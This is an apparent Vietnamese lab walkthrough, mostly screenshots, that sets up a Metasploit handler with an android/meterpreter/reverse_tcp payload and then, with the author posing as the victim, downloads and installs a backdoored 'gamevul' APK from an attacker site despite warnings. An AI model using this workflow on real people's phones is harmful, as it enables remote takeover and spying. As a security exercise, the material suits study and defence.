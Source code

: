 ![image](https://hackmd.io/_uploads/SJhvZPSJA.png)

- sau khi tạo xong backdoor mình sẽ thiết lập nó trên metasploit

![image](https://hackmd.io/_uploads/SJ4Ew-SkC.png)

- mình vào msfconsole và kiểm tra database đã được kết nối chưa bằng lệnh **db_status**

![image](https://hackmd.io/_uploads/HkbSwZSyC.png)

- thấy CSDL postgre đã được kết nối

- mình vào module exploit

```bash
use exploit/multi/handler
```

![image](https://hackmd.io/_uploads/HyP_v-S1C.png)

- vào set payload để điều khiển backdoor vừa tạo trên android và mình set các tham số cần thiết

```bash
set PAYLOAD android/meterpreter/reverse_tcp

```

![image](https://hackmd.io/_uploads/ryycPbryA.png)

![image](https://hackmd.io/_uploads/rk1BdWBy0.png)

- và cuối cùng là thực thi payload này với `exploit`
- và mình đợi victim truy cập vào web của mình rồi tải backdoor về chạy

- lúc này mình sẽ đóng giả làm victim truy cập vào trang web của attacker để tải file **gamevul**

![image](https://hackmd.io/_uploads/SJI2puSyA.png)

- hiện thông báo và mình nhấn **giữ lại**

![image](https://hackmd.io/_uploads/H15oadSJR.png)

- và mình cho phép tải file apk từ chrome

![image](https://hackmd.io/_uploads/r1wP6_HyA.png)

- khi file được tải xong mình mở nó lên

![image](https://hackmd.io/_uploads/SJZwkYr1A.png)

- và tiếp tục cài đặt nó dù có cảnh báo

![image](https://hackmd.io/_uploads/Hk2g1YHJR.png)

![image](https://hackmd.io/_uploads/H1klyKHJR.png)
